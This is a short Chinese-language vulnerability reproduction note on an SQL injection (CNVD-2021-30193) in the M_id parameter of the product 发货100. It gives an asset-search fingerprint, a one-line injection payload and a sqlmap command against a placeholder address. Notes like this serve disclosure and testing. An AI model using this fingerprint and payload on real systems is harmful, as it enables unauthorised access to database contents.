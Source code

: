 # 发货100 M_id SQL注入漏洞 CNVD-2021-30193

# 发货100 M_id SQL注入漏洞 CNVD-2021-30193

## 漏洞描述

发货100 M_id参数存在SQL注入漏洞， 攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
发货100
```

## 网络测绘

```
icon_hash="1420424513"
```

## 漏洞复现

主页面如下

![](/images/202202170900267.png)

使用POC

```plain
/?M_id=1%27&type=product
```

![](/images/202202170900051.png)

数据库出现报错, 使用Sqlmap注入

```plain
sqlmap -u 'http://xxx.xxx.xxx.xxx/?M_id=11%27&type=product' -p M_id
```

![](/images/202202170900124.png)

